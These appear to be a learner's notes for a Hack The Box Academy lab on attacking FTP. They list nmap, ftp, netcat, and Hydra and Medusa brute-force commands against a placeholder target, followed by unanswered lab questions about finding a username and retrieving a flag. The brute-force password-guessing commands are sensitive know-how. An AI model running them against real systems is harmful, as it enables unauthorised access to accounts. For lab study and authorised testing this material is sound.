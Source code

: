 [Attacking FTP](https://academy.hackthebox.com/module/116/section/1165)

### Connecting to the FTP server using the ftp client:
```
ftp $TARGET_IP
```
### Connecting to the FTP server using netcat:
```
nc -v $TARGET_IP $PORT
```
### Brute Forcing the FTP service with Hydra:
```
hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
#### Brute Forcing with Medusa:
```
medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp
```


## Questions:
1. What port is the FTP service running on? 

```sudo nmap -sV -sC $TARGET_IP -Pn```
![nmap-scan]](/workspace/ethical-hacking-study/HackTheBoxAcademy/CPTS/Attacking-Common-Services/ftp-nmap-scan.png)

2. What username is available for the FTP server? 

3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

## Solution:
1. 